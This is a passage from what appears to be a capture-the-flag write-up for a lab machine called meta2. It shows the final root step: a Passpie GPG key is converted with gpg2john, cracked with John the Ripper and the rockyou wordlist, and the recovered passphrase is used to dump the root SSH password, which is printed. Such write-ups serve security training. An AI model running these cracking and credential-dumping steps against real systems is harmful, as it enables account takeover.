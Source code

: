 Save private key from `.keys` file in local machine.

Use `gpg2john` to extract hash.
```bash
gpg2john keys > passpie.bash
```

```bash
❯ john passpie.bash -w /usr/share/wordlists/rockyou.txt

... [snip] ...

blink182         (Passpie)
```

Passpie Passphrase -> `blink182`

```bash
jnelson@meta2:~$ passpie copy root@ssh --to stdout
Passphrase: 
p7qfAZt4_A1xo_0x
```

![](screenshots/rooted.png)


